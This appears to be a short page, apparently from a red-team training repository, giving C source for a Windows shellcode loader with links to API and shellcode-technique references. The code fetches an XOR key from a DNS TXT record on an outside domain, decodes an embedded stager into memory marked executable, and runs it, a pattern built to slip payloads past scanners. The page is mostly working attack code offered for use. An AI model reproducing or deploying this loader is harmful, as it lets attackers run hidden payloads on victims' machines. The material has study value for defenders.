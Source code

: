 ```
#include <windows.h>
#include <windns.h>

unsigned char stager[] = { };

DWORD getKey(void) {
	PDNS_RECORD txtData;
	DNS_STATUS status;

	
	status = DnsQuery_A("ironbank.training", DNS_TYPE_TEXT, DNS_QUERY_STANDARD, NULL, &txtData, NULL);
	if (status != 0) {
		return 0;
	}

	
	return *(DWORD*)(*txtData->Data.Txt.pStringArray);
}

void decode(DWORD key, const char *input, char *output, DWORD len) {
	int i = 0;

	for (i = 0; i < len; i+=4) {
		*(DWORD*)(output+i) = *(DWORD *)(input+i) ^ key;
		key++;
	}
}

int main()
{
	DWORD oldProtect;
	void* decryptedStager;

	decryptedStager = VirtualAlloc(NULL, sizeof(stager), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	//VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
	//int (*shellcode)() = (int(*)())(void*)stager;
	decode(getKey(), stager, (char*)decryptedStager, sizeof(stager));
	int (*shellcode)() = (int(*)())(void*)decryptedStager;
	shellcode();
}
```
# References


* [DnsQuery_W function] (https://docs.microsoft.com/en-us/windows/win32/api/windns/nf-windns-dnsquery_w)
* [Windows Shellcode] (https://www.contextis.com/en/blog/a-beginners-guide-to-windows-shellcode-execution-techniques)
